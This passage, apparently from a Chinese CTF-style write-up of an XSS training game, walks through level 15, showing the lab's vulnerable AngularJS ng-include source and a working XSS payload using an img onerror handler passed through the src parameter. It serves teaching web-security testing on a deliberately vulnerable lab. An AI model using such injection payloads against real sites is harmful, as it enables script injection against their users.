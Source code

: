 源码中的那个网站据说需要认证, 访问不了.

据网上的 wp, 是一个 `EXIF XSS`


<br />

# level 15

部分源码:
```html
html ng-app>
<head>
        <meta charset="utf-8">
        <script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.2.0/angular.min.js"></script>
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level16.php?keyword=test"; 
}
</script>
<title>欢迎来到level15</title>
</head>
<h1 align=center>欢迎来到第15关，自己想个办法走出去吧！</h1>
<p align=center><img src=level15.png></p>
<?php 
ini_set("display_errors", 0);
$str = $_GET["src"];
echo '<body><span class="ng-include:'.htmlspecialchars($str).'"></span></body>';
?>
```

考查`angular js`的知识, `ng-include`有包含文件的意思, 相当于php里面的`include`

构造payload:
```
src='level1.php?name=<img src=x onerror=alert(1)>'
```

完整的url:
```
/level15.php?src='level1.php?name=test<img src=1 onerror=alert(1)>'
```
> AngularJS 是一款优秀的前端 JS 框架。

<br />


> AngularJS ng-include 指令.
> ng-include 指令用于包含外部的 HTML 文件.
> 包含的内容将作为指定元素的子节点.
> ng-include 属性的值可以是一个表达式，返回一个文件名.
> 默认情况下，包含的文件需要包含在同一个域名下.
